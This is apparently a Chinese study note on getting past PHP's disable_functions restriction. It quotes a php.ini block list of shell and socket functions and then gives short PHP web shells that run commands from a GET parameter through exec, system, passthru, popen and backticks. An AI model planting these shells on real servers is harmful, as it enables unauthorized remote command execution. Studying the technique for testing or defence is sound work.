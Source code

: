 实际上是开发者在后端的 php.ini 里写了如下语句
```ini
disable_functions = system,exec,shell_exec,passthru,proc_open,proc_close, proc_get_status,checkdnsrr,getmxrr,getservbyname,getservbyport, syslog,popen,show_source,highlight_file,dl,socket_listen,socket_create,socket_bind,socket_accept, socket_connect, stream_socket_server, stream_socket_accept,stream_socket_client,ftp_connect, ftp_login,ftp_pasv,ftp_get,sys_getloadavg,disk_total_space, disk_free_space,posix_ctermid,posix_get_last_error,posix_getcwd, posix_getegid,posix_geteuid,posix_getgid, posix_getgrgid,posix_getgrnam,posix_getgroups,posix_getlogin,posix_getpgid,posix_getpgrp,posix_getpid, posix_getppid,posix_getpwnam,posix_getpwuid, posix_getrlimit, posix_getsid,posix_getuid,posix_isatty, posix_kill,posix_mkfifo,posix_setegid,posix_seteuid,posix_setgid, posix_setpgid,posix_setsid,posix_setuid,posix_strerror,posix_times,posix_ttyname,posix_uname
```

## 常规绕过

理解为查看 `PHPinfo` 看看哪些没有被写进 `ini` 配置文件, 绕过限制。

1. exec
    ```php
    <?php echo exec('whoami');?>
    ```

2. shell_exec
    ```php
    <?php echo shell_exec('whoami');?>
    <?php echo `whoami`; ?>
    ```

3. system
    ```php
    <?php system('whoami');?>
    ```

4. $command
    ```php
    <?php
    $command=$_GET['command'];
    $ret=`$command`;
    echo $ret;
    ?>
    ```

5. passthru
    ```php
    <?php
    $command=$_GET['command'];
    passthru($command);
    ?>
    ```

6. popen
    ```php
    <?php
        $command=$_GET['command'];
        $fd = popen($command, 'r');
        while($s=fgets($fd)){
            print_r($s);
        }
    ?>
    ```
